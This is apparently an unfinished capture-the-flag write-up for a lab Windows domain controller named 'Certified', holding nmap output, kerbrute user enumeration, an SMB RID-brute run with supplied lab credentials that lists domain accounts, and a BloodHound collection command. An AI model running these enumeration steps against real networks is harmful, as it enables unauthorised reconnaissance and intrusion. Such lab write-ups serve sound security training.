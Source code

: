 # Certified
## nmap
```
PORT      STATE    SERVICE       REASON      VERSION
53/tcp    open     domain        syn-ack     Simple DNS Plus
88/tcp    open     kerberos-sec  syn-ack     Microsoft Windows Kerberos (server time: 2024-11-03 08:58:57Z)
135/tcp   open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack     Microsoft Windows netbios-ssn
389/tcp   open     ldap          syn-ack     Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f97f07c0ad0ec52e15f63ec55f3bc
| SHA-1: 28e24c68aa00dd8bee91564b33fea345116b3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBMMRMwEQYKCZImiZPyLGQBGRYDaHRiMRkwFwYKCZImiZPyLGQBGRYJY2VydGlm
| aWVkMRowGAYDVQQDExFjZXJ0aWZpZWQtREMwMS1DQTAeFw0yNDA1MTMxNTQ5MzZa
| Fw0yNTA1MTMxNTQ5MzZaMB0xGzAZBgNVBAMTEkRDMDEuY2VydGlmaWVkLmh0YjCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMx/FhgH36heOUjpNhO4JWYX
| E0zDwpKfx3dfqvEqTvIfRLpptNUCfkaeZijP+YAlUMNSNUvgFLZ7yuZf3ubIcEv8
| wXMlABwpVxe3NtOzLXQhNypU/W53DgYZoD9ueC3ob6f4jI6dN6jKt4gV/pBmoX3i
| Ky0XmrIaMkO8W20gzJtf8RaZYChHzhilGs3TwkKmBkZFt4+KeTkCbBE4T8zka8l6
| 52hfOhdz5YOU82eviJuTQqaprVtognmW6EV2C7laO+UvQy2VwZc9L+6A42t5Pz2E
| e+28xaBIGAgNn5TMcS+oJC0qhnAFNazT2X4p0aq3WBlF5BMwadrEwk59t4VcRc0C
| AwEAAaOCA0cwggNDMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4A
| dAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYD
| VR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4G
| CCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFl
| AwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYE
| FPTg6Uo2pYQv7jJTC9x7Reo9CbVVMB8GA1UdIwQYMBaAFOz7EkAVob3H0S47Lk1L
| csBi3yv1MIHOBgNVHR8EgcYwgcMwgcCggb2ggbqGgbdsZGFwOi8vL0NOPWNlcnRp
| ZmllZC1EQzAxLUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWVk
| LERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggr
| BgEFBQcwAoaBpWxkYXA6Ly8vQ049Y2VydGlmaWVkLURDMDEtQ0EsQ049QUlBLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9Y2VydGlmaWVkLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsG
| AQQBgjcZAaASBBBTwp5mQoxFT6ExYzeAVBiughJEQzAxLmNlcnRpZmllZC5odGIw
| TgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTcyOTc0
| Njc3OC0yNjc1OTc4MDkxLTM4MjAzODgyNDQtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAk4PE1BZ/qAgrUyzYM5plxxgUpGbICaWEkDkyiu7uCaTOehQ4rITZE1xefpHW
| VVEULz9UqlozCQgaKy3BRQsUjMZgkcQt0D+5Ygnri/+M3adcYWpJHsk+gby/JShv
| ztRj1wS/X6SEErDaf9Nw0jgZi3QCaNqH2agxwj+oA+mCMd5mBq7JtWcCI3wQ3xuE
| aOEd9Q86T/J4ZdGC+8iQKt3GrvHzTEDijK9zWxm8nuftG/AyBU0N23xJCLgWZkQU
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-11-03T09:00:26+00:00; +6h47m23s from scanner time.
445/tcp   open     microsoft-ds? syn-ack
464/tcp   open     kpasswd5?     syn-ack
593/tcp   open     ncacn_http    syn-ack     Microsoft Windows RPC over HTTP 1.0
636/tcp   filtered ldapssl       no-response
9389/tcp  filtered adws          no-response
49666/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49677/tcp filtered unknown       no-response
49678/tcp filtered unknown       no-response
49681/tcp filtered unknown       no-response
49708/tcp filtered unknown       no-response
49731/tcp filtered unknown       no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50458/tcp): CLEAN (Timeout)
|   Check 2 (port 25261/tcp): CLEAN (Timeout)
|   Check 3 (port 41863/udp): CLEAN (Timeout)
|   Check 4 (port 12583/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h47m22s, deviation: 0s, median: 6h47m22s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-03T08:59:49
|_  start_date: N/A

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.01 seconds
```
### kerbrute
```./kerbrute_linux_amd64 userenum --dc 10.10.11.41 -d certified.htb  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt```

nothing interesting
![image](https://github.com/user-attachments/assets/e23a5c8f-455b-4170-b5aa-e07810f903db)
oh crap
### smb
```
nxc smb 10.10.11.41 -u judith.mader -p judith09 --rid-brute
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             498: CERTIFIED\Enterprise Read-only Domain Controllers (SidTypeGroup)                                                                                                               
SMB         10.10.11.41     445    DC01             500: CERTIFIED\Administrator (SidTypeUser)
SMB         10.10.11.41     445    DC01             501: CERTIFIED\Guest (SidTypeUser)
SMB         10.10.11.41     445    DC01             502: CERTIFIED\krbtgt (SidTypeUser)
SMB         10.10.11.41     445    DC01             512: CERTIFIED\Domain Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             513: CERTIFIED\Domain Users (SidTypeGroup)
SMB         10.10.11.41     445    DC01             514: CERTIFIED\Domain Guests (SidTypeGroup)
SMB         10.10.11.41     445    DC01             515: CERTIFIED\Domain Computers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             516: CERTIFIED\Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             517: CERTIFIED\Cert Publishers (SidTypeAlias)
SMB         10.10.11.41     445    DC01             518: CERTIFIED\Schema Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             519: CERTIFIED\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             520: CERTIFIED\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.41     445    DC01             521: CERTIFIED\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             522: CERTIFIED\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.41     445    DC01             525: CERTIFIED\Protected Users (SidTypeGroup)
SMB         10.10.11.41     445    DC01             526: CERTIFIED\Key Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             527: CERTIFIED\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.41     445    DC01             553: CERTIFIED\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.41     445    DC01             571: CERTIFIED\Allowed RODC Password Replication Group (SidTypeAlias)                                                                                                               
SMB         10.10.11.41     445    DC01             572: CERTIFIED\Denied RODC Password Replication Group (SidTypeAlias)                                                                                                                
SMB         10.10.11.41     445    DC01             1000: CERTIFIED\DC01$ (SidTypeUser)
SMB         10.10.11.41     445    DC01             1101: CERTIFIED\DnsAdmins (SidTypeAlias)
SMB         10.10.11.41     445    DC01             1102: CERTIFIED\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.41     445    DC01             1103: CERTIFIED\judith.mader (SidTypeUser)
SMB         10.10.11.41     445    DC01             1104: CERTIFIED\Management (SidTypeGroup)
SMB         10.10.11.41     445    DC01             1105: CERTIFIED\management_svc (SidTypeUser)
SMB         10.10.11.41     445    DC01             1106: CERTIFIED\ca_operator (SidTypeUser)
SMB         10.10.11.41     445    DC01             1601: CERTIFIED\alexander.huges (SidTypeUser)
SMB         10.10.11.41     445    DC01             1602: CERTIFIED\harry.wilson (SidTypeUser)
SMB         10.10.11.41     445    DC01             1603: CERTIFIED\gregory.cameron (SidTypeUser)
```
## bloodhound
./bloodhound.py -ns "10.10.11.41" -d "certified.htb" -u "judith.mader" -p "judith09" -k

